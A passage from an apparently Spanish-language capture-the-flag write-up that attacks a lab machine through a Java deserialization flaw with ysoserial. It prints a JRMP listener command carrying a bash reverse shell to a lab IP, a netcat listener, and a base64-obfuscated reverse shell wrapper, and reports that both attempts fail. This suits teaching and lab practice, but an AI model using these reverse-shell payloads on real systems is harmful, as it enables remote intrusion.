 La descripción del exploit nos da los pasos necesarios a ejecutar:

<span style="color: blue;">1. </span>Debemos ponernos en escucha mediante el listener [**JRMP**](https://itqna.net/questions/22426/what-difference-between-rmi-and-jrmp) Listener por algún puerto, en este caso el **9999** e indicarle que comando queremos que se ejecute una vez hayamos recibido la petición hecha por el script:

```bash
❱ java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsBeanutils1 'bash -i >& /dev/tcp/10.10.14.146/4450'
```

> Usamos [ysoserial](https://github.com/frohoff/ysoserial), que es una herramienta que explota vaaaarias vulns de deserializacion de objetos en **Java**.

<span style="color: blue;">2. </span>Nos ponemos en escucha por el puerto **4450** (en mi caso):

```bash
❱ nc -lvp 4450
```

<span style="color: blue;">3. </span>Finalmente lanzamos el exploit:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_CVE_2020_26295_fail.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Recibimos la petición en el listener del **ysoserial**, pero no nos ejecuta comandos 🇫

Si revisamos el ejemplo del creador del script nos da otra forma de ejecutar comandos:

![341google_repo_CVE2020_26295_commandWITHpipes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341google_repo_CVE2020_26295_commandWITHpipes.png)

<div style="text-align: center;">

<a href="https://github.com/r0ckysec/CVE-2021-26295">https://github.com/r0ckysec/CVE-2021-26295</a>

</div>

Al parecer encodea en **base64** el comando que quiere ejecutar (en su caso una reverse Shell) y lo envía al sistema en un formato (que no había visto antes, pero se entiende lo que hace) distinto al de siempre, pues intentemos hacer la ejecución de comandos de esa forma:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.146/4450 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ1MCAwPiYxCg==
```

Y lo que pasaríamos seria:

```bash
'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ1MCAwPiYxCg==}|{base64,-d}|{bash,-i}'
```

Pues:

![341bash_CVE_2020_26295_base64_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_CVE_2020_26295_base64_fail.png)

Tampoco nos funciona (:

Acá fue cuando recordé el otro **CVE**, así que me fui a buscar info sobre él.

...
